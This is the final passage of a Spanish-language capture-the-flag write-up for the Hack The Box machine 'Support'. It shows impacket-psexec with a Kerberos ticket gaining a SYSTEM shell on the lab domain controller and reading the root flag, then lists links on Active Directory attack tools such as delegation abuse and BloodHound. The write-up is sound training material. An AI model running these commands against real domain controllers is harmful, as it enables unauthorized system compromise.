 * Y usemos **psexec de impacket** para autenticarnos en el **servicio Kerberos**:
```batch
impacket-psexec -k dc.support.htb
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file xIguRZux.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service kBtV on dc.support.htb.....
[*] Starting service kBtV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.
*
C:\Windows\system32> whoami
nt authority\system
```

* Busquemos la flag:
```batch
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 955A-5CBB
 Directory of C:\Users\Administrator\Desktop
05/28/2022  04:17 AM    <DIR>          .
05/28/2022  04:11 AM    <DIR>          ..
09/28/2024  10:06 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,946,958,848 bytes free
C:\Users\Administrator\Desktop> type root.txt
...
```

Con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.youtube.com/watch?v=gfM9uMT575w
* https://www.hackingarticles.in/a-detailed-guide-on-kerbrute/
* https://github.com/ropnop/kerbrute
* https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8
* https://github.com/BloodHoundAD/BloodHound/releases/tag/v4.3.1
* https://github.com/SpecterOps/BloodHound
* https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1?ref=blog.zsec.uk
* https://deepinenespañol.org/wiki/ejecutar-binarios-de-windows/
* https://neo4j.com/docs/operations-manual/current/installation/linux/debian/
* https://docs.oracle.com/en/java/javase/23/install/installation-jdk-linux-platforms.html#GUID-CF001E7F-7E0D-49D4-A158-9CF3ED4C247C
* https://www.azul.com/downloads/?package=jdk#zulu
* https://openvpn.net/client/client-connect-vpn-for-windows/
* https://docs.aws.amazon.com/corretto/latest/corretto-22-ug/generic-linux-install.html
* https://github.com/BloodHoundAD/SharpHound
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap
* https://github.com/tothi/rbcd-attack
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
* https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py
